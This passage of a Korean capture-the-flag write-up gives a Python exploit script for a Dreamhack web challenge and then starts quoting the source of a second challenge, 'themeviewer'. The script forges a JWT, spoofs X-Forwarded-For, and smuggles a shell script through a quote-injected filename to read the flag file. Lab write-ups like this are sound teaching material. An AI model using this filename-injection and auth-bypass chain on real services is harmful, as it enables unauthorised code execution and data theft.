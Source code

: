 DownloadFile을 살펴보면 `filename="{filename}"`과 같이 파싱하므로 위에서 찾은 취약점을 이용하여 .sh파일로 인식되게 할 수 있다.

최종 페이로드는 다음과 같다. (Race Condition을 적용하지 않은.)

```py
import requests as req
from urllib.parse import quote

url = 'http://host3.dreamhack.games:12826'

# JWT_KEY=furicbhi3ufh348fhe34if
token = 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MzUyOTgyODIsInVzZXJuYW1lIjoiUkVEQUNURUQifQ.qV2ZHYw7Wu65B5HNtDovkGm9OngxYsWXWthpkfFmrwU'
headers = {'X-Forwarded-For': '127.0.0.1'}
cookies = {'token': token}

res = req.post(f'{url}/admin/upload', files={'file': (quote('dummy.sh".txt'), b'cat /app/FLAG > /app/uploads/client/flag')}, headers=headers, cookies=cookies)
print(res.text)

res = req.post(f'{url}/admin/validate', json={'path': 'dummy.sh".txt'}, headers=headers, cookies=cookies)
print(res.text)

res = req.post(f'{url}/admin/healthcheck', json={'target': 'dummy'}, headers=headers, cookies=cookies)
print(res.text)

res = req.get(f'{url}/uploads/client/flag', headers=headers, cookies=cookies)
print(res.text)
```

### themeviewer

viewer, board 이런 제목이 정말 두렵다.

`flag`는 `index.js`에 하드코딩 되어있다.

```js
const express = require("express");
const jwt = require("jsonwebtoken");
const fs = require("fs");
const sshpk = require("sshpk");
const cookieParser = require("cookie-parser");

const app = express();

app.set("view engine", "ejs");
app.use(express.json());
app.use(cookieParser());

const PRIVATE_KEY = fs.readFileSync("private").toString();
const PUBLIC_KEY = fs.readFileSync("public.pub").toString();

const default_theme = {
  dark: {
    colors: {
      background: "#121212",
      text: "#ffffff"
    }
  },
  light: {
    colors: {
      background: "#ffffff",
      text: "#121212"
    }
```